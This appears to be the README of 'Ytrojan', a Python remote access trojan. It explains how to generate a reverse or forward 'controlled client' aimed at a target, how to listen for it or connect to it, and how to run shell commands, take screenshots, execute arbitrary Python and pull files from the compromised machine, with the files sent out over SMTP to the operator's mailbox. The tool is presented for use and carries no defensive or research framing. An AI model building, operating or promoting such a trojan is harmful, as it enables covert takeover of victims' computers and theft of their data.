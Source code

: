 # Ytrojan

## This version is out of date
## Please wait for the latest translation

## Select Your Language

Zh-cn   En-us

## How to use?

Run Main-Cmd.py with Python 3.10 or higher
Program running result：
```
__   ___             _             
\ \ / / |_ _ __ ___ (_) __ _ _ __  
 \ V /| __| '__/ _ \| |/ _` | '_ \ 
  | | | |_| | | (_) | | (_| | | | |
  |_|  \__|_|  \___// |\__,_|_| |_|
                  |__/             
                                      
Ytrojan $>
```  

### Use the "generate" command to generate the Controlled Client

```
generate [Option] [Path] [Ip] [Port]
1. [Option] 0 or 1
    When the option is 0, generate reverse controlled client
    When the option is 1, generate forward controlled client
2. [Path] The place where the controlled client is generated
3. [ip] Target host (or your computer) IP
   [port] Target host (or your computer) port
    When "option" is 0, ip and port are your computer's
    When "option" is 1, ip and port are those of the controlled client
    When parameters $> appears, it means that you need to select the function of the controlled client you want
    Currently supported functions are: shell, get, win, py
    For example, if you want the controlled client to be able to execute shell and py statements, you can do this:
    parameters $>shell pycmd
````

### Use the "connect" command to connect to the forward host

````
connect [ip] [port]
1. [ip][port] are all target
2. This command should be run after the controlled client runs
````

### Use the "listen" command to connect to the reverse host

````
listen [ip] [port]
1. [ip][port] are your computer
2. This command should be run before the controlled client
````

### How to control the target

After connecting to the target, you can operate the target with the following commands:
(connecting to the target might output "ip $>")

````
1. shell [Command] #Execute shell command
2. getfile [Path] #Get the file
3. pycmd [Code] #Execute python code
````

E.g.
````
1. shell whoami #Execute whoami command
   shell id
   shell ls
2. getfile a.txt #Get a.txt
   getfile /a.jpg #Get a.jpg in the root directory
3. win #Get the current screenshot
4. pycmd print('hello world') #output hello world
   pycmd import os; print(os.name)
````

### Attention!
Because shell commands are not interactive shells you cannot execute commands like "vim" and "sudo"!

The "getfile" command use the smtp protocol to transfer files. You must do the following before using these command!!!

````
$> pycmd host = "smtp server domain name" #For example, NetEase mailbox is smtp.163.com
YES
$> pycmd port = "smtp service port" #usually port 25
YES
$> pycmd username = "your email"
YES
$> pycmd password = "The password provided to you by the smtp service operator"
YES
$>...
````
